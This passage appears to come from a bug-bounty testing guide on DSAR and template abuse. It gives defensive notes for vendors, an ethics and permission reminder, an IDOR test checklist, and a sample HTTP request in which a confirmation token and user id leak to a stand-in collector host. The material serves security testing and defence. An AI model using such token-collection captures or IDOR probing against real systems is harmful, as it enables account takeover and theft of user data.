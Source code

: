   

---

  

## Defensive Notes (for vendor messaging)

- Do not send raw user-supplied input into templates. Use safe templates and sanitizer libraries.  

- Proxy remote content: when including user content that references external resources, rewrite to vendor proxy so third parties cannot harvest tokens or referer.  

- Implement strict access controls on DSAR processing and template editing.  

- Monitor and alert on unusual DSAR volumes or template changes.

  

---

  

## Ethical & Legal Reminder

These techniques are powerful. Always:

- Test only on systems you own or where you have explicit permission (bug-bounty scope).  

- Avoid exfiltrating real user data. Use test accounts for proof-of-concept.  

- If you find a vulnerability exposing user data, follow responsible disclosure and the program’s rules.

  

---

  

## Useful snippets (for your toolkit)

- **Collaborator GET capture example** (what to look for):  

  ```

  GET /?q=https://app.example/s/confirm?token=XYZ123&uid=456 HTTP/1.1

  Host: collector.example

  User-Agent: Mozilla/5.0 (MailClient)

  Referer: https://mail.example/message/...

  ```

- **IDOR test checklist**: increment IDs, try UUID canonicalization, test numeric vs UUID randomization, test for missing auth headers.

  

---

  